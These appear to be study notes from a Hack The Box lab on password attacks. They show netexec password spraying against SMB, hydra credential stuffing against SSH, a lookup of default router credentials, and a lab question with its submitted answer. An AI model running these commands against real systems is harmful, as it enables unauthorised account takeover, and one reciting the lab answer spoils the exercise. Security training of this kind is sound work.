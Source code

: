 The attacker attempts to use a single password across many different user accounts. This technique can be particularly effective in environments where users are initialized with a default password. 

```shell-session
realCustampin@htb[/htb]$ netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```
- We can use NetExec to brute force the smb client on our target using the default password 'ChangeMe123!'.

## Credential Stuffing

- An attacker uses one credential pair on one service and tries it on other services as well. 

```shell-session
realCustampin@htb[/htb]$ hydra -C user_pass.list ssh://10.100.38.23
```
- Performing a credential stuffing attack on an SSH Target using credentials that were obtained from a database leak. 

## Default Credentials
- Network Devices and other applications come with default credentials, we can use the creds command below to view all the default credentials. 
```shell-session
realCustampin@htb[/htb]$ pip3 install defaultcreds-cheat-sheet
```

Once installed, here is the usage: 
```shell-session
realCustampin@htb[/htb]$ creds search linksys

+---------------+---------------+------------+
| Product       |    username   |  password  |
+---------------+---------------+------------+
| linksys       |    <blank>    |  <blank>   |
| linksys       |    <blank>    |   admin    |
| linksys       |    <blank>    | epicrouter |
| linksys       | Administrator |   admin    |
| linksys       |     admin     |  <blank>   |
| linksys       |     admin     |   admin    |
| linksys       |    comcast    |    1234    |
| linksys       |      root     |  orion99   |
| linksys       |      user     |  tivonpw   |
| linksys (ssh) |     admin     |   admin    |
| linksys (ssh) |     admin     |  password  |
| linksys (ssh) |    linksys    |  <blank>   |
| linksys (ssh) |      root     |   admin    |
+---------------+---------------+------------+
```

We can also find a lot of default credentials using this site down below: 
https://www.softwaretestinghelp.com/default-router-username-and-password-list/


## Lab Questions: 

10.129.202.64
user: sam
pass: B@tm@n2022!

Use the credentials provided to log into the target machine and retrieve the MySQL credentials. Submit them as the answer. (Format: <username>:<password>)

superdba:admin